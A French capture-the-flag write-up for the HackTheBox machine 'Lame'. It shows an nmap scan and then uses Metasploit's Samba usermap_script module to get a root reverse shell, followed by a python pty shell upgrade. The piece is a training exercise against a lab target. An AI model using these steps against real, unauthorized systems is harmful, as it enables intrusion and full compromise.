

# HackTheBox: Lame


## Scan Nmap 

Pour commencer, j'ai effectué un scan Nmap afin d'identifier les services actifs sur la machine cible. 

```bash
sudo nmap -p- -Pn --min-rate 10000 -v -A -oA lame 10.10.10.3
```
Les résultats montrent plusieurs services ouverts:

```bash
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.3.4
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp  open  distccd     distccd v1 (GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4)
```


## Analyse des Services 

- Le service `FTP` permet une connexion anonyme mais j'ai rien trouver 
- Les services `Samba` sont actifs sur les ports 139 et 445 
## Recherche de Vulnérabilié

### Vulnérabilité vsftpd 2.3.4

J'ai trouvé une vulnérabilité critique dans vsftpd 2.3.4 qui permet une compromission de la machine via un backdoor. Cependant, pour cet exemple, nous allons nous concentrer sur le service SMB.



### Vulnérabilité SMB

Voyant que le service SMB est actif, j'ai recherché des vulnérabilités associées à cette version de Samba. Une recherche rapide a révélé que cette version de Samba (3.0.20) est vulnérable à l'exploit `Samba usermap script`


## Exploitation avec Metasploit

Pour automatiser l'exploitation de cette vulnérabilité, j'ai utilisé Metasploit. Voici les étapes que j'ai suivies pour obtenir un reverse shell avec les privilèges root

- Lancer Metasploit avec la commande `msfconsole`

- Rechercher un exploit pour le service smb `search usermap_script` et `use 0`
- Configuration de l'exploit `set rhost 10.10.10.3`, `set lhost tun0` mon ip pour le reverse shell et `exploit` pour lancer l'exploit 


- Pour obtenir un shell plus interactif j'utilise la commande `python -c 'import pty;pty.spawn("bash")'` 

Et la machine est compromise 


